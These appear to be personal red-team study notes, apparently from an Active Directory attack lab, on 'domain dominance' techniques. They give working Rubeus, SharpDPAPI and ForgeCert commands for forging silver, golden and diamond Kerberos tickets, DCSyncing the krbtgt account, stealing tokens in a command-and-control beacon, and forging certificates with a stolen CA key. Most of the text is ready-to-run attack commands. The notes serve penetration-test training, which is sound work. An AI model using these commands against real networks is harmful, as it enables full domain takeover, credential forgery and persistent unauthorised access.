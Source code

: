 # Domain Dominance Notes

## Silver tickets

a forged service ticket, signed using the secret material (RC4/AES keys) of a computer account.

if we have dumped kerb keys for a machine account we can use them on our windows attacking machine to make a service ticket for a user
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/<machine account> /aes256:<key> /user:<user> /domain:<domain> /sid:<domain sid> /nowrap
```

import ticket in beacon
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:<base64>
steal_token <PID>
```

Here are some useful ticket combinations:

Technique -	Required Service Tickets
psexec - HOST & CIFS
winrm	- HOST & HTTP
dcsync - (DCs only)	LDAP


## Golden tickets

forged TGT, signed by the domain's krbtgt account

common to get krbtgt is after a dcsync
```
dcsync <dcd> <krbtgt account>
```

offline ticket creation
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<key> /user:<user> /domain:<domain> /sid:<domain sid> /nowrap
```

import it
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<user> /password:FakePass /ticket:<base64>
steal_token <PID>
```

## Diamond tickets

A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it. 

create with rubues in beacon
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:<aes hash> /nowrap
```
- /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the current user
- /ticketuser is the username of the user to impersonate.
- /ticketuserid is the domain RID of that user.
- /groups are the desired group RIDs (512 being Domain Admins).
- /krbkey is the krbtgt AES256 hash.

use rubues describe to show the info of the TGT
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:<base64>
```

## Forged Certificates

Tools:
[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
[ForgeCert](https://github.com/GhostPack/ForgeCert)

once on a CA, extract the private keys
```
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine
```

Save the private key and certificate to a .pem file and convert it to a .pfx with openssl
```
C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123
```

the user does need to be present in AD.  We can now use Rubeus to request a legitimate TGT with this forged certificate.
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap
```



